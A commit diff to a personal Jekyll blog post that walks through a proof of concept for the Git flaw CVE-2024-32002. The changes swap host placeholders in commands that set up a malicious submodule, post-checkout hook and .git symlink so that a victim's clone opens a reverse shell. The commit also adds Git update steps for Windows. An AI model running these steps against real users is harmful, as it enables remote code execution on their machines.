

Before and after one commit to NishanthAnand21/official-portfolio, a Jekyll site: the page built from _posts/2024-07-30-CVE-2024-32002-PoC.md, in a window 1280 px wide and 1400 px high, scrolled down 1883 px. Shown: the whole window at 94% size, without its empty margins (161-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
litlle modifications

````diff
--- a/_posts/2024-07-30-CVE-2024-32002-PoC.md
+++ b/_posts/2024-07-30-CVE-2024-32002-PoC.md
@@ -70,7 +70,7 @@ rm -rf repo1
 rm -rf repo2
 
 # Clone the malicious repository
-git clone http://<ip>:3000/<name of the owner>/repo1.git
+git clone http://<ip>:<port>/<name of the owner>/repo1.git
 cd repo1
 
 # Create a malicious post-checkout hook
@@ -88,9 +88,9 @@ git push
 cd ..
 
 # Clone another repository and set up the submodule
-git clone http://<ip>:3000/temp/repo2.git
+git clone http://<ip>:<port>/<name of the owner>/repo2.git
 cd repo2
-git submodule add --name x/y "http://<ip>:3000/<name of the owner>/repo1.git" A/modules/x
+git submodule add --name x/y "http://<ip>:<port>/<name of the owner>/repo1.git" A/modules/x
 git commit -m "Add submodule"
 
 # Create a symbolic link to the .git directory
@@ -102,7 +102,7 @@ git commit -m "Add symbolic link"
 git push
 
 # Clone the malicious repository to trigger the hook
-git clone http://<ip>:3000/temp/repo2.git
+git clone http://<ip>:<port>/<name of the owner>/repo2.git
 ```
 
 #### Execution
@@ -114,7 +114,7 @@ git clone http://<ip>:3000/temp/repo2.git
    ```
 3. **Clone the Malicious Repository**: On the victim's machine, clone the `repo2` repository:
    ```sh
-   git clone http://<ip>:3000/temp/repo2.git
+   git clone http://<ip>:<port>/<name of the owner>/repo2.git
    ```
 
 This will trigger the execution of the `post-checkout` hook, establishing a reverse shell connection to the attacker's machine.
@@ -153,6 +153,12 @@ On a Red Hat-based system, you can use:
 sudo yum update git
 ```
 
+## Updating Git on Windows
+
+- Download the latest Git for Windows installer from the official Git website.
+
+- Run the installer and follow the on-screen instructions to update Git.
+
 ## Updating Git on macOS
 
 On macOS, if you have installed Git via Homebrew, you can update it using:
````
